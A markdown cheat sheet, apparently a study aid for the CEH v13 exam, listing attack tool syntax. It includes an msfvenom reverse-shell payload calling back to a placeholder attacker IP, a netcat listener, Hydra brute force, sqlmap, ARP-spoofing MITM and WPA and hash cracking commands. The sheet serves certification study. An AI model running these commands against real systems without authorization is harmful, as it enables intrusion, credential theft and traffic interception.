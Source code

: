 # ⚡ CEH Quick Commands & Syntax – High-Yield

This file contains **must-know commands** for CEH v13.  
Memorize these exact syntaxes — EC-Council often asks either **“Which command would you run?”** or shows an output and asks **“Which tool produced this?”**.

---

## 🔹 Reconnaissance
**theHarvester** – Gather emails, subdomains  
```bash
theHarvester -d example.com -l 100 -b google
```

**whois** – Domain registration info  
```bash
whois example.com
```

**dig** – Query DNS records  
```bash
dig ANY example.com
dig MX example.com
```

**dnsrecon** – DNS enumeration  
```bash
dnsrecon -d example.com -t axfr
```

**subfinder** – Subdomain discovery  
```bash
subfinder -d example.com
```

---

## 🔹 Scanning & Enumeration
**nmap** – Full TCP scan, service detection, OS fingerprinting  
```bash
nmap -sV -A -p- target
```

**rustscan** – Fast port scan + Nmap  
```bash
rustscan -a target --ulimit 5000 -- -sV
```

**enum4linux** – SMB enumeration  
```bash
enum4linux -a target
```

**snmpwalk** – SNMP data gathering  
```bash
snmpwalk -v2c -c public target
```

**nbtstat** – NetBIOS info (Windows)  
```bash
nbtstat -A targetIP
```

---

## 🔹 Exploitation
**msfconsole** – Start Metasploit  
```bash
msfconsole
search exploit_name
use exploit/path
set RHOSTS target
set PAYLOAD payload_type
run
```

**msfvenom** – Payload generation  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attackerIP LPORT=4444 -f exe -o shell.exe
```

**hydra** – Brute force login  
```bash
hydra -l admin -P passwords.txt ssh://target
```

**sqlmap** – SQL injection  
```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs
```

---

## 🔹 Post-Exploitation
**netcat** – Reverse shell listener  
```bash
nc -lvnp 4444
```

**ettercap** – MITM attack  
```bash
ettercap -T -M arp:remote /target1/ /target2/
```

**bettercap** – Modern MITM framework  
```bash
bettercap -iface eth0
```

---

## 🔹 Wireless Attacks
**airmon-ng** – Enable monitor mode  
```bash
airmon-ng start wlan0
```

**airodump-ng** – Capture handshake  
```bash
airodump-ng wlan0mon
```

**aircrack-ng** – Crack WPA handshake  
```bash
aircrack-ng capture.cap -w wordlist.txt
```

---

## 🔹 Web App & WAF Testing
**gobuster** – Directory brute force  
```bash
gobuster dir -u http://target.com -w wordlist.txt
```

**wafw00f** – WAF detection  
```bash
wafw00f http://target.com
```

---

## 🔹 Hash & Password Attacks
**hashcat** – Crack NTLM hash  
```bash
hashcat -m 1000 hash.txt wordlist.txt
```

**john** – Crack passwords  
```bash
john --wordlist=wordlist.txt hash.txt
```

**md5sum** – Generate file hash  
```bash
md5sum file.txt
```

---

## 🔹 Encoding & Decoding
**CyberChef** – Browser-based, drag-and-drop  
**base64** – Encode/Decode  
```bash
echo "text" | base64
echo "dGVzdA==" | base64 -d
```

---

## 📌 Exam Tips
- Always **associate tool → attack phase → scenario**.
- EC-Council may replace `target` with an **IP**, `example.com`, or leave blanks for you to fill.
- Syntax questions often hide the answer in **flags** (`-sV`, `-A`, `-p-`).
